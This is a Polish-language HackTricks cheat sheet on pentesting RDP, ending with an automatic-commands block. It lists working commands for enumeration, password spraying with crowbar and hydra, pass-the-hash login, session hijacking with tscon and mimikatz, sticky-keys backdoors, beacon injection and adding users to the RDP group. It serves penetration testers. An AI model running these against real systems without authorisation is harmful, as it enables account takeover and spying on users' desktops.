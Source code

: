 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Podstawowe informacje

Opracowany przez Microsoft, **Remote Desktop Protocol** (**RDP**) jest zaprojektowany w celu umożliwienia połączenia z interfejsem graficznym między komputerami w sieci. Aby nawiązać takie połączenie, użytkownik korzysta z oprogramowania klienckiego **RDP**, a jednocześnie zdalny komputer musi działać na oprogramowaniu serwera **RDP**. Ta konfiguracja umożliwia płynne sterowanie i dostęp do środowiska pulpitu zdalnego komputera, zasadniczo przenosząc jego interfejs na lokalne urządzenie użytkownika.

**Domyślny port:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeracja

### Automatyczna

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Sprawdza dostępne szyfrowanie i podatność na DoS (bez powodowania DoS dla usługi) oraz uzyskuje informacje NTLM Windows (wersje).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Bądź ostrożny, możesz zablokować konta**

### **Password Spraying**

**Bądź ostrożny, możesz zablokować konta**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Połączenie z znanymi poświadczeniami/hashami
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Sprawdź znane poświadczenia w usługach RDP

rdp\_check.py z impacket pozwala sprawdzić, czy niektóre poświadczenia są ważne dla usługi RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Ataki**

### Kradzież sesji

Z **uprawnieniami SYSTEM** możesz uzyskać dostęp do każdej **otwartej sesji RDP przez dowolnego użytkownika** bez potrzeby znajomości hasła właściciela.

**Uzyskaj otwarte sesje:**
```
query user
```
**Dostęp do wybranej sesji**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Teraz będziesz wewnątrz wybranej sesji RDP i będziesz musiał podszyć się pod użytkownika, używając tylko narzędzi i funkcji systemu Windows.

**Ważne**: Kiedy uzyskasz dostęp do aktywnych sesji RDP, wylogujesz użytkownika, który z niej korzystał.

Możesz uzyskać hasła z procesu, zrzucając je, ale ta metoda jest znacznie szybsza i pozwala na interakcję z wirtualnymi pulpitami użytkownika (hasła w notatniku bez zapisywania na dysku, inne sesje RDP otwarte na innych maszynach...)

#### **Mimikatz**

Możesz również użyć mimikatz, aby to zrobić:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Łącząc tę technikę z **stickykeys** lub **utilman**, będziesz mógł uzyskać dostęp do administracyjnego CMD i każdej sesji RDP w dowolnym momencie.

Możesz wyszukiwać RDP, które zostały zainfekowane jedną z tych technik, korzystając z: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Jeśli ktoś z innej domeny lub z **lepszymi uprawnieniami zaloguje się przez RDP** do komputera, gdzie **jesteś administratorem**, możesz **wstrzyknąć** swój beacon do jego **procesu sesji RDP** i działać jako on:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** to framework post-exploatacyjny stworzony w Powershell, zaprojektowany głównie w celu automatyzacji ataku **Shadow** na komputerach z systemem Microsoft Windows. Ta luka (wymieniana jako funkcja przez Microsoft) pozwala zdalnemu atakującemu na **wyświetlenie pulpitu ofiary bez jej zgody**, a nawet na kontrolowanie go na żądanie, korzystając z narzędzi natywnych dla samego systemu operacyjnego.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Kontroluj mysz i klawiaturę w zautomatyzowany sposób z linii poleceń
* Kontroluj schowek w zautomatyzowany sposób z linii poleceń
* Uruchom proxy SOCKS z klienta, które kieruje komunikację sieciową do celu za pośrednictwem RDP
* Wykonuj dowolne polecenia SHELL i PowerShell na celu bez przesyłania plików
* Przesyłaj i pobieraj pliki do/z celu, nawet gdy przesyłanie plików jest wyłączone na celu

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiastowo dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
